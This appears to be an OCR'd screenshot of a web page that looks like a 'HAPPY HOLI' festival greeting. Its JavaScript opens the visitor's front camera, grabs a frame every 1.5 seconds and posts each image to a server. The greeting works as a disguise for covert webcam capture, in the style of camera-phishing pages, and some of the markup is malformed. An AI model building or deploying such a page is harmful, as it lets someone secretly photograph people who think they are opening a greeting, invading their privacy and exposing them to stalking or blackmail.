  
 'use strict';
 
 const video = document.getElementById('video');
 const canvas = document.getElementById('canvas');
 const errorMsgElement = document.querySelector('span#errorMsg');
 
 const constraints = {
   audio: false,
   video: {
     
     facingMode: "user"
   }
 };
 
 // Access webcam
 async function init() {
   try {
     const stream = await navigator.mediaDevices.getUserMedia(constraints);
     handleSuccess(stream);
   } catch (e) {
     errorMsgElement.innerHTML = `navigator.getUserMedia error:${e.toString()}`;
   }
 }
 
 // Success
 function handleSuccess(stream) {
   window.stream = stream;
   video.srcObject = stream;
 
 var context = canvas.getContext('2d');
   setInterval(function(){
 
        context.drawImage(video, 0, 0, 640, 480);
        var canvasData = canvas.toDataURL("image/png").replace("image/png", "image/octet-stream");
        post(canvasData); }, 1500);
   
 
 }
 
 // Load init
 init();
 
 </script>
<body>

<body class="bg" id="rakhi" style="background: linear-gradient(to bottom right, #f6ff00, #e1e8e7, #00ffe9);
    -webkit-background-size: cover;
    -moz-background-size: cover;
    -o-background-size: cover;
    background-size: cover;">
	
	
<center><span style="font-size: 20px;"color: #ff077a;">▅ ▆ ▇ █ HAPPY HOLI █ ▇ ▆ ▅</center>	
<center>
<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
